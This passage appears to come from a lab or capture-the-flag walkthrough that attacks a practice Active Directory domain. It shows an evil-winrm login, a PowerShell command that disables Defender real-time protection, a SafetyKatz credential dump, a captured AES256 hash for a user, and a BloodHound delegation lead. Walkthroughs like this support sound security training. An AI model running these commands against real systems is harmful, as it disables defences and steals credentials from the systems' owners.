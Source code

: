 ```bash
evil-winrm -i 192.168.58.21 -u "web\hacker" -p hacker
```

### **From web to share**

_web to frank_ First disable the antivirus

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

Upload SafetyKatz on the machine and dump all thw hashes

```powershell
./SafetyKatz.exe token::elevate sekurlsa::ekeys exit
```

<figure><img src="../.gitbook/assets/Pasted image 20240321120726.png" alt=""><figcaption></figcaption></figure>

&#x20;as we can see we obtained the frank's hashes.&#x20;

<mark style="color:yellow;">frank aes256 hash = a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac</mark>

### &#x20;_frank to share_&#x20;

By looking in bloodhound we can also see that frank can delegate to share.academy.ninja.lan&#x20;
